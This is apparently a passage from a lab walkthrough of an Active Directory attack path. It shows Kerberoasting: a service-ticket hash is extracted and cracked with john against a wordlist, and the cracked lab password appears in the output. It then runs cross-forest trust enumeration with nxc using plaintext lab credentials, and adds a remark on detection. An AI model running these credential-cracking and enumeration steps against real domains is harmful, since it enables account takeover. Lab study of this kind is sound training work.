 This "Kerberoast hash" can then be piped to `john`, like we did before, to crack the password.

```
~$ describeTicket.py /tmp/krb5cc_1000 | grep 'Kerberoast hash' | awk '{print $5}' | tee service_tickets.txt
~$ john --wordlist=/usr/share/wordlists/rockyou.txt service_tickets.txt      
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tr4v15           (?)     
1g 0:00:00:01 DONE (2025-09-07 08:55) 0.8474g/s 2630Kp/s 2630Kc/s 2630KC/s trabajadorasocial24..tr0ydawn
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> Some tools may attempt to _downgrade_ the encryption type of the service ticket to `rc4_hmac` which may be a point of detection. Using `kinit` and `kvno` ensures that the service ticket is requested with the service account's actual encryption type. See: [The Art of Detecting Kerberoast Attacaks](https://trustedsec.com/blog/art_of_kerberoast).

## Path 2: Cross-Forest Enumeration

Another way of obtaining the credentials for `svc_vdi` is through enumeration of the `backward.rv` domain, which has a [two-way trust relationship](https://learn.microsoft.com/en-us/entra/identity/domain-services/concepts-forest-trust) with the `antennae.rv` domain.

We can identify this trust relationship by querying the `dc01.antennae.rv` domain controller for its trusted domains:

```
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --query "(objectClass=trustedDomain)" "cn flatName trustDirection trustType"
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
LDAP        10.5.10.10      389    DC01             [+] Response for object: CN=backward.rv,CN=System,DC=antennae,DC=rv
LDAP        10.5.10.10      389    DC01             cn                   backward.rv
LDAP        10.5.10.10      389    DC01             trustDirection       3
LDAP        10.5.10.10      389    DC01             trustType            2
LDAP        10.5.10.10      389    DC01             flatName             backward
```

The `trustDirection` attribute indicates the direction of the trust relationship:

- `1`: One-way incoming trust
- `2`: One-way outgoing trust
- `3`: Two-way trust

The presence of a `trustDirection` value of `3` confirms that there is a two-way trust relationship between the `antennae.rv` and `backward.rv` domains - this means that users from either domain can access resources in the other domain.
